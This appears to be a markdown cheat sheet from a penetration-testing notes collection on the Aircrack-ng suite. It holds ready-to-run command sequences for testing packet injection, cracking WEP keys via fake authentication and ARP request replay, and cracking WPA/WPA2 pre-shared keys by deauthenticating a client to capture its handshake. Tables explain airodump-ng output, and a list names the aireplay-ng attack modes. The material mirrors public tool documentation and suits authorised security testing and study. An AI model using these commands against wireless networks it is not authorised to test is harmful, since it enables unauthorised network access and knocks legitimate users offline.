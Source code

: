 # Aircrack-ng :
   * [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)
     * The injection test determines if your card can successfully inject and determine the ping response times to the Access Point (AP)
      ```bash
         # List wireless interfaces
         iwconfig
         # Start the wireless interface in monitor mode on a specific AP channel
         airmon-ng start wlan0 8
         # Test the injection capability of the wireless device to the AP
         aireplay-ng -9 -e teddy -a 00:14:6C:7E:40:80 wlan0mon 
         # Disable monitor mode
         airmon-ng stop wlan0mon
         # restart the network manager
         service network-manager start
      ```
   ## WEP crack
   * [Flowchart : Wep Cracking](http://www.aircrack-ng.org/img/simple-wep-crack.gif)
   * [Crack WEP (with client)](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack) (fake authentication combined with ARP request replay technique)
      ```bash
         # List wireless interfaces
         iwconfig
         # Start the wireless interface in monitor mode on the specific AP channel
         airmon-ng start wlan0
         # Show available AP
         airodump-ng wlan0mon
         # Start airodump-ng to capture the IVs
         airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w output wlan0mon
         # Use aireplay-ng to do a fake authentication with the access point (To associate with an access point)
         aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon
         # Start aireplay-ng in ARP request replay mode to inject packets
         aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon
         # Run aircrack-ng to crack key using the IVs collected
         aircrack-ng -b 00:14:6C:7E:40:80 output*.cap
      ```
   * [Crack WEP (without client)](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)

  # WAP crack
  * Crack WPA/WPA2 pre-shared key
      
      ```bash
         # Start airodump-ng to collect authentication handshake
         airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon
         # Use aireplay-ng to deauthenticate the wireless client
         aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon
         # Run aircrack-ng to crack the pre-shared key
         aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap
      ```

   * [The upper data block shows the access points found](https://www.aircrack-ng.org/doku.php?id=newbie_guide)

      Name | Description
      ------------ | -------------
      **BSSID**   |	The MAC address of the AP|
      **PWR**     |	Signal strength. Some drivers don't report it|
      **Beacons** |	Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons: the more beacons, the better the signal quality|
      **Data** 	|Number of data frames received|
      **CH** 	    |Channel the AP is operating on|
      **MB**      |	Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g. Values between are a mixture|
      **ENC**     |	Encryption: OPN: no encryption, WEP: WEP encryption, WPA: WPA or WPA2 encryption, WEP?: WEP or WPA (don't know yet)|
      **ESSID**   |	The network name. Sometimes hidden |

   * [The lower data block shows the clients found](https://www.aircrack-ng.org/doku.php?id=newbie_guide) 

      Name | Description
      ------------ | -------------
      | **BSSID**   | The MAC of the AP this client is associated to |
      | **STATION** | The MAC of the client itself |
      | **PWR**     | Signal strength. Some drivers don't report it  |
      | **Packets** | Number of data frames received  |
      | **Probes**  | Network names (ESSIDs) this client has probed |

   * [different attacks](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

     * **--deauth count** : deauthenticate 1 or all stations (-0)
     * **--fakeauth delay** : fake authentication with AP (-1)
     * **--interactive** : interactive frame selection (-2)
     * **--arpreplay** : standard ARP-request replay (-3)
     * **--chopchop** : decrypt/chopchop WEP packet (-4)
     * **--fragment** : generates valid keystream (-5)
     * **--caffe-latte** : query a client for new IVs (-6)
     * **--cfrag** : fragments against a client (-7)
     * **--test** : tests injection and quality (-9)
     
     

